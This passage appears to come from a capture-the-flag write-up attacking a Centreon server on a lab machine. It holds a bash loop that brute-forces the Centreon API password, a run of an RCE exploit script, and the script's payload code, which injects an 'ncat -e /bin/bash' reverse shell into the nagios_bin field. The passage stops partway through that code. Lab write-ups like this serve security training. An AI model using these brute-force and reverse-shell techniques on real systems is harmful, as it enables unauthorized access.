 
    root@kali# curl 10.10.10.157/centreon/api/index.php?action=authenticate -d "username=admin&password=admin"
    "Bad credentials"



I can do a similar bash loop, and this time it finds the password in
less than a minute:



    root@kali# time for pass in $(cat /usr/share/wordlists/seclists/Passwords/twitter-banned.txt); do curl -s 10.10.10.157/centreon/api/index.php?action=authenticate -d "username=admin&password=${pass}" | grep authToken && echo $pass && break; done
    {"authToken":"UZVQydKGAqV5v7YfpfHNDepxax\/QiCGW5iiqGOw0iX8="}
    password1

    real    0m55.771s
    user    0m3.379s
    sys     0m2.262s



### Exploit Fails

Armed with the creds, I opened a `nc` listener and ran the exploit
script:



    root@kali# ./centreon-exploit.py http://10.10.10.157/centreon/ admin password1 10.10.14.30 443
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 77dc6f59344b11c223b864e612c90cac
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : e76df3722b39e59e312024617c21b801
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !



It seemed to work fine, but I didn't get a shell.

I opened the script back up, and took a look at the section where the
payload is sent:



        payload_info = {
            "name": "Central",
            "ns_ip_address": "127.0.0.1",
            # this value should be 1 always
            "localhost[localhost]": "1",
            "is_default[is_default]": "0",
            "remote_id": "",
            "ssh_port": "22",
            "init_script": "centengine",
            # this value contains the payload , you can change it as you want
            "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
            "nagiostats_bin": "/usr/sbin/centenginestats",
            "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
            "centreonbroker_cfg_path": "/etc/centreon-broker",
            "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
            "centreonbroker_logs_path": "",
            "centreonconnector_path": "/usr/lib64/centreon-connector",
            "init_script_centreontrapd": "centreontrapd",
            "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
            "ns_activate[ns_activate]": "1",